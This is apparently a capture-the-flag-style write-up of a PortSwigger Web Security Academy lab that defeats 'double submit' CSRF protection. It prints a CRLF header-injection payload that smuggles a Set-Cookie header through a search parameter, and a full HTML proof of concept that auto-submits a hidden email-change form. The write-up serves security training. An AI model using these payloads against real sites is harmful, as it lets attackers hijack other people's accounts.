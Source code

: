 # Lab: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

# Step 1 Investigate the email change functionality of this webapp

I capture the request and send it to repeater, and notice that the csrf cookie and token are the same value:

![image](https://user-images.githubusercontent.com/83407557/210909167-8e1fae85-89ed-485d-b08e-89a23d1bef8a.png)

If I change them both to the word hacked, my request still goes through, this tells me that the cookie and token are not tied to the session:

![image](https://user-images.githubusercontent.com/83407557/210909309-dfae4145-958f-4fc0-8bed-0a7f5b8a899a.png)

# Step 2 Find a HTTP host header attack on same domain

Before I can perform a CSRF attack, I still need to find a way to chain this attack with a HTTP host header attack, in order to set the victim's csrf cookie to the same value as the csrf token being sent with my payload. I find a vulnerable search function that will allow me to perform this action:

![image](https://user-images.githubusercontent.com/83407557/210909578-c5af4225-0bcf-401a-90dc-ba05fcfc2da7.png)


When I search for something, like the string "test":

![image](https://user-images.githubusercontent.com/83407557/210909661-81304bf5-e5a4-441e-9270-6137d4e744ef.png)

I get a cookie set called LastSearchTerm:

![image](https://user-images.githubusercontent.com/83407557/210909731-e732252c-8a30-405c-9af0-9078b33544e3.png)

If I add the following payload, I can trigger a new cookie to be created in a user's session with the name hermh4cks and the value of awesome

note the following for the payload

| character | url-encoded |
| - | - |
| `\r\n` | `%0d%0a` |
| `;` | `%3b` |
| "space" | `%20` |

**payload**
```html
%0d%0aSet-Cookie:%20hermh4cks=awesome%3b%20SameSite=None
```

![image](https://user-images.githubusercontent.com/83407557/210910468-51f42393-b678-48de-a4b8-4d9e01486626.png)

And note the newly added cookie:

![image](https://user-images.githubusercontent.com/83407557/210910641-c6c682f0-88d1-40a4-b43b-6911cbfb7680.png)

With this info I can create a link that will set a csrf cookie to the value of hermhacks:

https://0a5e00bb038c237fc3282a4b0013004a.web-security-academy.net/?search=HHHattack%0d%0aSet-Cookie:%20csrf=hermh4cks%3b%20SameSite=None

# Step 3 Create a CSRF POC

going back to my HTTP history, I find my POST request to change an email:

![image](https://user-images.githubusercontent.com/83407557/210911036-a8ab4f50-78b7-4808-a742-6531af44a07a.png)

I right click the request and go engagement tools-->generate CSRF POC

![image](https://user-images.githubusercontent.com/83407557/210911130-95f838f7-f5dc-44d4-bcdf-84a24016f382.png)

I generate a POC, change the csrf token value to hermh4cks, and add the following img tag that will set the victim's csrf cookie to the same value as the token in my CSRF POC:

```html
<img src="https://0a5e00bb038c237fc3282a4b0013004a.web-security-academy.net/?search=HHHattack%0d%0aSet-Cookie:%20csrf=hermh4cks%3b%20SameSite=None"onerror="document.forms[0].submit()">
```

Full payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5e00bb038c237fc3282a4b0013004a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="hermh4cks" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a5e00bb038c237fc3282a4b0013004a.web-security-academy.net/?search=HHHattack%0d%0aSet-Cookie:%20csrf=hermh4cks%3b%20SameSite=None"onerror="document.forms[0].submit()">
  </body>
</html>
```

# Step 4 Host POC on attack server and send to victim

I put the payload in the body of /exploit on my attack server:

![image](https://user-images.githubusercontent.com/83407557/210911756-1d7679d5-eb4e-4270-b96e-8b31ba16f852.png)

I store it and send it to the victim, solving the lab:

![image](https://user-images.githubusercontent.com/83407557/210911835-47f01cb5-6beb-4d7d-bba9-aa97e817ce92.png)


